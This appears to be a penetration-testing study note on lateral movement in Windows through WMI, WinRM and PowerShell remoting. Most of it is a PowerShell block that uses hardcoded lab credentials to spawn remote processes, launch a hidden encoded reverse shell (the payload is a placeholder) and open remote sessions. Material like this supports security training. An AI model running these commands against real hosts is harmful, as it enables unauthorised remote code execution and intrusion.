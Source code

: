 Windows Management Instrumentation (WMI) is an object-oriented feature that facilitates task automation.

WMI is capable of creating processes via the *Create method* from the *Win32_Process* class. It communicates through **Remote Procedure Calls** (RPC) over port 135 for remote access and uses a higher-range port (19152-65535) for session data.

```powershell
# Reverse shell with WMI for Powershell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'reverse shell command';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

# Reverse shell with winrm
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e reverse_shell"

# Shell access with Powershell remoting
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential -Authentication Negotiate
Enter-PSSession 1
```